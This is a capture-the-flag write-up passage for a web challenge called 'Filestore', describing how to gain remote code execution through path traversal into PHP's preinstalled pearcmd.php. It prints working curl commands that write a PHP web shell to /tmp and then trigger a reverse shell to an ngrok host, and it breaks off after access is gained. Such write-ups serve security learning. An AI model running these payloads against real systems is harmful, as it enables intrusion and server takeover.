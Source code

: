 ![](https://i.imgur.com/9eh67JQ.png)

# Filestore - Web

This challenge requires us to upload a file to gain access to the challenge server, and then exploit a custom binary to escalate privileges and become the admin user.

## Getting Remote Code Execution (RCE)

To achieve RCE in this challenge, we have two options:

1. We can upload a file and bruteforce the first 13 hex numbers generated by `uniqid()` to determine the filename. We can narrow down the scope by using the server date, but we still need to bruteforce the remaining 5 bytes, which has 1,048,575 possible combinations.
2. The second option is to use `pearcmd.php`, which is preinstalled in the Docker image of the machine, to gain arbitrary file write permission and write our shell in the tmp folder.

In this writeup, we will be using the second option as it is easier. However, if you are interested in the bruteforce method, we have included the solver at the end of this writeup.

### Exploitation

As explained in this [article](https://blog.csdn.net/rfrder/article/details/121042290), we can exploit the preinstalled `pearcmd.php` in the PHP Docker image to gain arbitrary file write. For instance, we can use the following command to write our payload in the `foo.php` file located in the tmp folder:

```sh
curl "https://filestore.web.actf.co/?f=../../../../usr/local/lib/php/pearcmd.php&+-c+/tmp/foo.php+-d+man_dir=<?echo(system(\$_GET\['a'\]));?>+-s+"
```

This command writes the payload `<?echo(system($_GET['a']));?>` to `/tmp/foo.php`. We can then access our payload by including the `/tmp/foo.php` file using file inclusion, as shown in the image below:

![](https://i.imgur.com/s3KvscF.png)

Now that we know we can use file inclusion to access `/tmp/foo.php`, we can use the following command to trigger the reverse shell:

```sh
curl "https://filestore.web.actf.co/?f=../../../../tmp/foo.php&a=php%20-r%20%27%24sock%3Dfsockopen%28%220.tcp.ap.ngrok.io%22%2C17352%29%3Bsystem%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27"
```

Before gaining access, we need to set up a listener in our local machine. We can generate our payload using a website like [https://www.revshells.com/](https://www.revshells.com/), as shown in the image below:

![](https://i.imgur.com/kxnzytE.png)

After triggering the reverse shell, we can see that we have successfully gained access to the machine:
